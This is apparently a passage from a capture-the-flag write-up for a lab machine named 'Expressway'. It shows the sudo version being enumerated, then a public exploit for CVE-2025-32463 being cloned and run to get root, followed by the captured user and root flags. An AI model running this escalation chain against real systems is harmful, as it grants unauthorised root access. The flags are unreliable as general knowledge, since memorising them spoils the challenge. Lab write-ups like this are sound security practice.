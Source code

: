 
---
# Lateral Movement -None
---
# Privilege Escalation to root

## Local enumeration
```bash
ike@expressway:~$ sudo -V
Sudo version 1.9.17
ike@expressway:~$ id
uid=1001(ike) gid=1001(ike) groups=1001(ike),13(proxy)
```
- sudo version 1.9.17
![](<./attachments/Expressway.png>)
## Privilege Escalation vector
- **[CVE-2025-32463_chwoot](https://github.com/pr0v3rbs/CVE-2025-32463_chwoot)**
```bash 
git clone https://github.com/pr0v3rbs/CVE-2025-32463_chwoot.git
cd CVE-2025-32463_chwoot
./sudo-chwoot.sh
```
- root access 
```bash
root@expressway:/# id
uid=0(root) gid=0(root) groups=0(root),13(proxy),1001(ike)
```
---
# Trophies

## User Flag
```txt
4715d072d5a898838bd4b11e64d013e4
```
## Root Flag
```txt
a2186a79b4e5669d6e4f9fcba737159f
```
## **/etc/shadow**
- have root access `root@expressway`
```sh
```